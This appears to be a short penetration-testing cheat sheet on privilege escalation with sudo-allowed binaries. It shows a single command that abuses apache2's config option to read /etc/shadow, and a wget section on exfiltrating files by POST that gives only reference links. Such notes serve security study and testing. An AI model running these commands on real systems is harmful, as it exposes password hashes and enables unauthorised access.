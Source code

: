 # Apache2

With sudo privileges on apache2 we can view system files:
```bash
sudo apache2 -f /etc/shadow
```

# Wget

Exfiltrate files via POST request:
https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/
https://gtfobins.github.io/gtfobins/wget/